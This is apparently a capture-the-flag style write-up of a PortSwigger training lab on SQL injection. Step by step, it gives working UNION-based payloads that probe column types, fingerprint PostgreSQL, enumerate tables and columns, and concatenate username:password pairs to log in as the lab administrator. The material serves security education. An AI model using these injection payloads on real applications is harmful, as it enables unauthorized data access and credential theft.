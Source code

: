# SQL injection UNION attack, retrieving multiple values in a single column | Dec 4, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column), you'll learn: SQL injection UNION attack, retrieving multiple values in a single column! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform an [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-6/images/Pasted%20image%2020221204060909.png)

**In the previous labs, we found an SQL injection vulnerability in the product category filter.**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-6/images/Pasted%20image%2020221204061104.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-6/images/Pasted%20image%2020221204061117.png)

And we found that this table has 2 columns.

Now, to exploit this vulnerbility even further, **we need find which column accept string data type via `UNION` clause:**

```sql
' UNION SELECT 'a',NULL-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-6/images/Pasted%20image%2020221204061310.png)

We can see that the first column doesn't accept string data type.

**How about the second column?**
```sql
' UNION SELECT NULL,'a'-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-6/images/Pasted%20image%2020221204061405.png)

**It accept string data type!**

Then, we can enumerate this database much deeper!

**Let's find which DBMS(Database Management System) is using:**
```sql
' UNION SELECT NULL,version()-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-6/images/Pasted%20image%2020221204061652.png)

- DBMS information: PostgreSQL version 12.12

**List all the tables in the current database:**
```sql
' UNION SELECT NULL,table_name FROM information_schema.tables-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-6/images/Pasted%20image%2020221204061753.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-6/images/Pasted%20image%2020221204061806.png)

**The `users` table seems interesting!**

**List all the columns in the `users` table:**
```sql
' UNION SELECT NULL,column_name FROM information_schema.columns WHERE table_name='users'-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-6/images/Pasted%20image%2020221204061932.png)

- `users` table column names: `password`, `username`

**Let's extract all the data inside the `users` table!**

However, since **we only have 1 column that accept string data type**, we need to do **string concatenation**.

According to [PortSwigger's SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet), we can concatenate string via 2 pipes: `||`.

**Payload:**
```sql
' UNION SELECT NULL,username||':'||password FROM users-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-6/images/Pasted%20image%2020221204062235.png)

**We found user `administrator`'s password! Let's login as that user via the `My account` link!**

- Username: administrator
- Password: uin0c06mzov8uvbvfbwk

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-6/images/Pasted%20image%2020221204062340.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-6/images/Pasted%20image%2020221204062351.png)

We're logged in as `administrator`!

# Conclusion

What we've learned:

1. SQL injection UNION attack, retrieving multiple values in a single column